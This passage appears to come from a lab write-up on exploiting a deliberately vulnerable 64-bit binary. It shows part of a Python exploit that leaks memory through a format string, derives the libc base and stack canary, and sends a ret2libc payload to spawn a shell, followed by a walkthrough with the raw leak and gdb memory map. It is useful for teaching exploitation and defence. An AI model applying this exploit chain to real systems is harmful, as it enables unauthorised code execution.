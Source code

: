 ```python
    leak = r.recvline()

    print '[+] Format string leak:\n [%s]\n' % leak.rsplit("\n")[0]

    libc_base = get_libc_base_address(leak)
    system_call = get_system_in_glibc(libc_base)
    bin_sh = get_bin_sh_in_glibc(libc_base)
    canary = get_canary_value(leak)

    payload = create_payload(canary, system_call, bin_sh)

    r.recvuntil("$> ")
    r.sendline(payload)

    r.interactive()


if __name__ == '__main__':
    main()
    sys.exit(0)

```

The exploit itself should be quite self explanatory, but let's quickly walk through it together.  
So first of all when launching the binary we wait for it to prompt us for the first input.  
When this happens we provide a bunch of format specifiers `%llx.` to get a leak from memory.  

> Recall: %llx. format string is a long long-sized integer

The leak will look something like this: 

	1.7f6c3501b790.a.0.7f6c35219700.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.7ffd002e786c.7f6c35019b78.7f6c3501b780.7f6c35244ca0.7f6c3501b780.1.ff000000000000.7f6c3501a620.0.7f6c3501a620.7f6c3501a6a4.7f6c3501a6a3.7ffdc2a905a0.7f6c34cd09e6.7f6c3501a620.0.0.7f6c34ccd439.7f6c3501a620.7f6c34cc4d94.0.5b9cf8225c7bc900.


It turned out that the 2nd leaked value is a random address within libc.  
Since we got that one we were able to calculate the base address of libc by looking up the libc mapping of the current process from within gdb.

```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r-xp	/home/lab/Git/RE_binaries/ASLR/binaries/vuln_x64
0x00600000         0x00601000         r--p	/home/lab/Git/RE_binaries/ASLR/binaries/vuln_x64
0x00601000         0x00602000         rw-p	/home/lab/Git/RE_binaries/ASLR/binaries/vuln_x64
0x01d12000         0x01d33000         rw-p	[heap]
0x00007f6c34c55000 0x00007f6c34e15000 r-xp	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6c34e15000 0x00007f6c35015000 ---p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6c35015000 0x00007f6c35019000 r--p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6c35019000 0x00007f6c3501b000 rw-p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6c3501b000 0x00007f6c3501f000 rw-p	mapped
0x00007f6c3501f000 0x00007f6c35045000 r-xp	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007f6c35218000 0x00007f6c3521b000 rw-p	mapped
0x00007f6c35244000 0x00007f6c35245000 r--p	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007f6c35245000 0x00007f6c35246000 rw-p	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007f6c35246000 0x00007f6c35247000 rw-p	mapped
0x00007ffdc2a72000 0x00007ffdc2a93000 rw-p	[stack]
```